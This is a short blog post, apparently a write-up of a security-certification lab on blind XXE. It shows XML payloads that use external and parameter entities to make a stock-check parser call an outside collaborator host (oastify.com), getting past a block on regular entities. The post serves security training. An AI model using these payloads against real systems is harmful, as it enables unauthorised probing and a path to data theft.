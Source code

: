 ```yaml
---
layout: post
title:  "Blind XXE with out-of-band interaction via XML parameter entities"
date:   2024-11-23 10:20:54 +0530
categories: [BSCP, XXE]
---
```


## Objective 

This lab has a "Check stock" feature that parses XML input, but does not display any unexpected values, and blocks requests containing regular external entities.

To solve the lab, use a parameter entity to make the XML parser issue a DNS lookup and HTTP request to Burp Collaborator. 

## Solution 

This lab also includes the XXE in check stock functionality but when I use regular entity based payload meaning I used the same payload of the previous lab 

```xml
<!DOCTYPE stockCheck [ <!ENTITY xxe SYSTEM "http://burpcollaborator.net"> ]> 
<stockCheck><productId>&xxe;</productId><storeId>1</storeId></stockCheck>
```

Observing the response where it says `"Entities are not allowed for security reasons"` there is some kind of block out there 

![]({{ site.baseurl }}/assets/images/xxe/xxe-18.png)

But when we replace the `&xxe` entity with the actual `productId` which is `1` will reveal the stock count of the product but no external pingback to the collaborator 

![]({{ site.baseurl }}/assets/images/xxe/xxe-19.png)

Now in order to bypass we can use xml entity parameter, where we can able to reference it with in the DTD.. Firstly it's referenced in percent character before the entity name and referenced else where inside the DTD with `%xxe;` instead of `&xxe;` 

Just combining all together with the following payload 

```xml
<!DOCTYPE stockCheck [ <!ENTITY % xxe SYSTEM "http://bxcluruc7sgb3cwctx3lj8v9c0is6ju8.oastify.com"> %xxe; ]> 
<stockCheck><productId>1</productId><storeId>1</storeId></stockCheck>
```

Sent the request with the above payload as `POST` body and shows the `XML error` in the response.. But, checking the collaborator we got the pingbacks from the server 

![]({{ site.baseurl }}/assets/images/xxe/xxe-20.png)

Since we managed to recieve the pingbacks... our objective is achieved and that solves the lab 

![]({{ site.baseurl }}/assets/images/xxe/xxe-21.png)